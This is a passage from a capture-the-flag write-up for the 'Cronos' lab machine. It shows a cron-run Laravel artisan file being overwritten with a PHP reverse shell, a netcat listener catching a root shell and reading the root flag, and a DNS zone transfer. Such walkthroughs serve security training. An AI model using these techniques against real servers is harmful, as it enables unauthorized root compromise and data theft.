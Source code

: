 ```
file /var/www/laravel/artisan
/var/www/laravel/artisan: a /usr/bin/env php script, ASCII text executable
```
Afterwards, checking the permissions of /var/www/laravel/artisan, we realize that we can replace the artisan file

```
www-data@cronos:/tmp$ ls -la /var/www/laravel/artisan
ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

With all these information, we can then upload a php reverse shell onto the server and replace the /var/www/laravel/artisan file

```
www-data@cronos:/tmp$ cp artisan /var/www/laravel/artisan
cp artisan /var/www/laravel/artisan
```

### Obtaining root flag

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 43                                                                          1 ⚙
listening on [any] 43 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.13] 55510
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:26:01 up 18:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
<Redacted root flag>
# 
```

## Post-Exploitation
### Zone-transfer
We also found that cronos.htb is vulnerable to zone transfer as well.

```
┌──(kali㉿kali)-[~]
└─$ host -l cronos.htb ns1.cronos.htb                                                    1 ⨯
Using domain server:
Name: ns1.cronos.htb
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

